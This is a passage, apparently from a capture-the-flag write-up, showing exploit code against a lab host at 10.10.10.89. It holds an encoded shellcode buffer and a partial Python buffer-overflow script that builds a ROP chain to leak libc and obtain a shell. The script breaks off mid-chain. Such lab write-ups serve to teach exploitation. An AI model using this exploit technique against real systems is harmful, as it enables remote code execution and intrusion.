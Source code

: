 ``` bash
buf += "\xc5\x34\xc9\xb1\xc0\x33\xe2\x2a\x42\xab\xdb\x8b\xd6"
buf += "\xab\xaf\xdb\xc5\x6b\xb2\xec\x94\x36\xea\x8c\x96\x23"
buf += "\x2a\x56\xf4\x2c\xbd\x08\xed\x33\xac\xb5\xc7\x74\x62"
buf += "\xa2\xbe\x4e\xea\x4f\x57\x48\xff\x35\xad\x48\xfb\xda"
buf += "\x9e\x56\xe2\x2a\x4e\x8c\xeb\x81\x68\x33\xe2\x3b\x9e"
buf += "\x34\xeb\x35\x5e\x45\x20\x08\xfb\x33\xc9\xb1\xc1\x33"
buf += "\xe2\x3c\x9d\x64\xa6\xf8\x1b\xfc\x9f\x8d\x38\x8d\xa3"
buf += "\xb0\x9e\x3c\xe7\x62\xc7"
```

That will be a shellcode, and let\'s put together rest of our exploit.

``` python

import httplib
import struct
import socket
import telnetlib
import urllib


url = "http://10.10.10.89:1111/"
lurl = "http://localhost:9999/"

def execute_payload(payload):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("10.10.10.89", 1111))
    s.send("GET /{} HTTP/1.1\r\n\r\n".format(urllib.quote_plus(payload)))
    response = s.recv(4096)
    s.close()
    return response

def exploit(payload):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    #s.connect(("localhost", 9999))
    s.connect(("10.10.10.89", 1111))
    s.send("GET /{} HTTP/1.1\r\n\r\n".format(urllib.quote_plus(payload)))
    # get a shell

# padding to RIP
padding = "A" * 568

# got and plt
read_got = 0x603088 # read()@GOT address
write_plt = 0x400c50 # write()@PLT address

# offsets
read_off = 0x0f7250 # read() offset from libc base

# gadgets
poprdiret = 0x4011dd # pop rdi; ret
poprsiret = 0x4011db # pop rsi; pop r15; ret
push_rsp  = 0x023ad1 # push rsp; ret

#### 1 - leak the libc base
buf = ""
buf += padding
buf += struct.pack("<Q", poprdiret)
buf += struct.pack("<Q", 0x4)
buf += struct.pack("<Q", poprsiret)
buf += struct.pack("<Q", read_got)
buf += struct.pack("<Q", 0xF)
buf += struct.pack("<Q", write_plt)

```